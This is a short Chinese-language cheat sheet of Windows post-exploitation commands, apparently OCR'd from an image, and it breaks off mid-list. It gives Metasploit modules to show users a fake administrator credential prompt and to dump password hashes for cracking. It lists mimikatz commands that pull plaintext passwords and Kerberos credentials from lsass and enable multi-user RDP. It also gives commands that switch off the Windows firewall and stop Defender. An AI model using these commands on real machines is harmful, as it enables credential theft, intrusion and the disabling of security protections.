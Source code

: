 ### 用户认证钓鱼

进入session中

run post/windows/gather/phish_windows_credentials

这个时候用户桌面会出现管理员认证窗口

### passTheHash:

必须要是system权限

进入session中

run post/windows/gather/hashdump 获取操作系统的hash值

可以获取管理员密码加密之后的密码，之后使用穷举的方法破解

------

## mimikatz猕猴桃

load mimikatz(load kiwi) 加载猕猴桃

help（help kiwi） 查看可以使用什么命令

creds_all 列出所有凭据

creds_kerberos 拿到kerberos凭据

creds_msv 拿到加密之后的密码

privilege::debug 当前进程提升为debug权限

inject::process lsass.exe sekurlsa.dll 注入lsass.exe进程

sekurlsa::logonPasswords 列出所有用户密码

system::user 当前用户名

system::computer 当前主机名

process::list 列出所有进程

process::modules 列出当前加载模块

ts::multirdp 支持多用户远程登录

------

## 防火墙和3389：

关闭防火墙

netsh advfirewall set allprofiles state off

关闭defener

net stop windefend

关闭dep（数据执行保护）
